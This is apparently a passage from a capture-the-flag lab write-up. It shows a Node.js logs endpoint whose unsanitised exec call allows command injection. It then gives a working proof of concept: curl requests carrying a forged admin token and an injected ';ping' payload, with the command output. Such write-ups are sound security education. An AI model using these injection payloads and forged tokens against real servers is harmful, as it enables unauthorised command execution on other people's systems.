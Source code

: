 ### Command Injection

#### Theory

The code that I suspect will be vulnerable to command injection is:

```

if (name == 'theadmin'){
    const getLogs = `git log --oneline ${file}`;
    exec(getLogs, (err , output) =>{
        if(err){
            res.status(500).send(err);
            return
        }
        res.json(output);
    })
}

```

`exec` is a dangerous [command](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp/exec), as it will execute the given string. `${file}` is passed in as a parameter to `/api/logs`. With control over `${file}`, I can make `getLogs` into something like:

```

git log --oneline; [any command]

```

#### POC - ping

With access as theadmin, I’ll try the command injection from above. I’ll start `tcpdump` to listen for ICMP packets, and pass `file=;ping -c 1 10.10.14.6` (url encoded with `+` for space):

```

oxdf@hacky$ curl -s 'http://10.10.11.120/api/logs?file=;ping+-c+1+10.10.14.6' -H "auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8"
"80bf34c fixed typos 🎉\n0c75212 now we can view logs from server 😃\nab3e953 Added the codes\nPING 10.10.14.6 (10.10.14.6) 56(84) bytes of data.\n64 bytes from 10.10.14.6: icmp_seq=1 ttl=63 time=75.8 ms\n\n--- 10.10.14.6 ping statistics ---\n1 packets transmitted, 1 received, 0% packet loss, time 0ms\nrtt min/avg/max/mdev = 75.768/75.768/75.768/0.000 ms\n"

```

The result include the `ping` output after the `git log` output! I can make it print prettier using `jq -r .`, which will take JSON input (a plain string is valid JSON) and remove the formatting to make it raw:

```

oxdf@hacky$ curl -s 'http://10.10.11.120/api/logs?file=;ping+-c+1+10.10.14.6' -H "auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8" | jq -r .
80bf34c fixed typos 🎉
0c75212 now we can view logs from server 😃
ab3e953 Added the codes
PING 10.10.14.6 (10.10.14.6) 56(84) bytes of data.
64 bytes from 10.10.14.6: icmp_seq=1 ttl=63 time=104 ms
--- 10.10.14.6 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 103.897/103.897/103.897/0.000 ms

```